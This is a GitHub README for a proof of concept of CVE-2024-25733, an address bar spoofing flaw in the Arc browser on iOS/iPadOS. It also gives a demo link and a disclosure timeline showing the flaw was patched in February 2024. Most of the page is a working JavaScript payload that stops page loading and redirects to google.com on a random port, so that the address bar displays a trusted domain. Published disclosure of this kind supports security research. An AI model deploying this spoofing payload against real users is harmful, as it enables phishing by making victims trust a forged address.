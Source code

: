 # ARC-Browser-Address-Bar-Spoofing-PoC (CVE-2024-25733)
ARC Browser Address Bar Spoofing PoC - iOS/iPadOS

## Exploit PoC (Proof of Concept)

---

```html
<script>
    function spoof() {
        setTimeout(() => {
            window.stop();
            let randomPort;
            do {
                randomPort = Math.floor(Math.random() * 1000);
            } while (randomPort === 0 || randomPort === 443);
            document.location = "https://google.com:" + randomPort + "/";
        }, 300);
    }
    spoof();
</script>
```

## DEMO

<a href="https://github.com/hackintoanetwork/ARC-Browser-Address-Bar-Spoofing-PoC/raw/main/PoC.mp4">PoC.mp4</a>
<br>
<br>


## TimeLine
 - 2024-01-25 : Vulnerability reported to The Browser Company of New York
 - 2024-01-25 : Recognized as a security vulnerability
 - 2024-02-13 : Patched in the latest release
